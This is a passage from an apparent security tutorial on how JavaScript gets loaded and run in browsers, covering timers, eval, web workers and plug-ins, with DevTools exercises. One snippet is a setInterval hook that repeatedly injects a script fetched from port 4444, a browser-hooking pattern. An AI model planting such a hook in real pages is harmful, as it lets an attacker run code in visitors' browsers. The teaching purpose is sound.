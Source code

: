 Using timers such as `setTimeout` and `setInterval`:

```javascript
setInterval(function hook(){d=document;z=d.createElement("script"); \ 
z.src=`//${window.location.hostname}:4444`;d.body.appendChild(z);},5000);
```

Using `eval` calls:

```javascript
eval('alert("hello");')
```


In DevTools, watch the **Network** tab as you click the **Run Script** button.  You will see the `hello.js` file get loaded from over the network and start running in the browser.  After you select **OK** or **Cancel**, highlight the file and click on the **Response** tab to see the code the file contained.


#### Web Workers

Web workers are objects that run a javascript file in its own thread that has a different context than the current window.  This is mainly used for performing processor-intensive calculations without interfering with the user interface thread:

```html
<script>var worker = new Worker("count.js");</script>
```

In DevTools, watch the **Sources** tab as you start the Web Worker.  Notice that it runs in its own thread separate from the web page.

You can expand the thread out and see the file that's running and its contents:

![](images/JavaScript%20and%20Browser-based%20Malware/image010.png)<br><br>


#### Plug-ins

Browser plug-ins such as Adobe Reader allow different file formats to be displayed in the browser:

|Plug-in|Description|
|-|-|
|Microsoft Office|embedded word documents and spreadsheets|
|Microsoft Silverlight|embedded videos|
|Windows Media Player|embedded audio and video|
|ActiveX Controls|plug-ins for Internet Explorer|
|Apple QuickTime|embedded audio and video|
|Adobe Reader|embedded PDFs|
|Adobe Flash|embedded videos|
|Java|java programs called applets|
